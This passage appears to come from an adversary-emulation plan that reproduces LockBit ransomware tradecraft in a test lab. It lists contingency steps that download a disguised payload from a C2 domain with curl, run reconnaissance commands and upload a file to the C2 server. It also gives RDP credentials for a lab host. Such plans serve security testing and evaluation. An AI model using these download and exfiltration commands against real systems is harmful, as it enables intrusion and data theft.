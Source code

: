 ### No Choco available or unable to download StealBit

#### :biohazard: Tier 1 Procedures

* Switch to the ThunderShell tab and enter the following command to download
StealBit to `quirrell (10.111.9.202)`:

  ```cmd
  md C:\ProgramData\chocolatey\lib\Connhost\tools\
  curl http://1nvisibility-cl0ak.net/files/connhost.exe -o C:\ProgramData\chocolatey\lib\Connhost\tools\connhost.exe
  curl http://1nvisibility-cl0ak.net/files/connhost.exe -o C:\ProgramData\chocolatey\lib\Connhost\tools\sb.conf
  ```

### StealBit is unavailable or fails to execute

#### :biohazard: Tier 1 Procedures

* :arrow_right: Initiate an RDP session to `quirrell (10.111.9.202)` (if not
already open)

  | Username | Password |
  | -------- | -------- |
  | decryptmalfoy.net\gornuk | Concave-Monsieur |

* If no elevated command prompt is currently open, search for PowerShell and
right-click to Run As Administrator
  
* Run the following command in the PowerShell prompt on `quirrell (10.111.9.202)`

  ```cmd
  whoami /all
  ipconfig /all
  cd ~;Get-ChildItem -Recurse
  curl http://1nvisibility-cl0ak.net/files/bs/portal
  curl http://1nvisibility-cl0ak.net/files/11111000011110000 --upload-file [ALTERNATIVE FILE]
  ```

* After the file upload completes verify the file exists in the C2 server files
folder. If the file exists continue to the next step.

## Step 8 - Impact

### No ThunderShell Available to Download or Execute LockBit

#### :biohazard: Tier 1 Procedures

* :arrow_right: Initiate an RDP session to `quirrell (10.111.9.202)` (if not
already open)

  | Username | Password |
  | -------- | -------- |
  | decryptmalfoy.net\gornuk | Concave-Monsieur |
